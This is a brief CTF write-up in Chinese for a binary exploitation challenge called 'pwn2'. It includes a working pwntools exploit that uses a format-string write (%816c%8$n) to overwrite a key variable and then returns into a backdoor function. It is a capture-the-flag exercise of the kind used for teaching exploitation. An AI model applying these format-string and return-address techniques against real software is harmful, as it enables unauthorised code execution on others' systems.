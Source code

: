 ![[Pasted image 20240828145838.png]]
![[Pasted image 20240828145853.png]]
利用格式化字符串漏洞将key的值覆盖为816，接着构造一个ret2text，运行backdoor函数即可。
exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
p = process('./pwn2')
# p = remote("boom.01130328.xyz", 37189)

key = 0x404070
backdoor = 0x4011B6
ret = 0x40101a

offset = 0x100 + 8
'''
%816c%8$n:
1. `%816c`：这是一个格式说明符，表示输出 816 个字符的空格。它会在输出中生成 816 个空格字符。
2. `%8$n`：这是格式化字符串漏洞的核心部分。`%n` 是一个格式说明符，它会将到目前为止输出的字符数写入到参数中指定的地址。`8$` 表示这是第 8 个参数。

结合起来，`%816c%8$n` 的作用是：
- 首先输出 816 个空格字符。
- 然后将 816 这个值写入到第 8 个参数所指向的地址。
'''
payload = b"%816c%8$n".ljust(16, b'\0') + p64(key)
payload = payload.ljust(offset, b'\0') + p64(ret) + p64(backdoor)
p.sendlineafter(b'name: ', payload)
p.interactive()
```
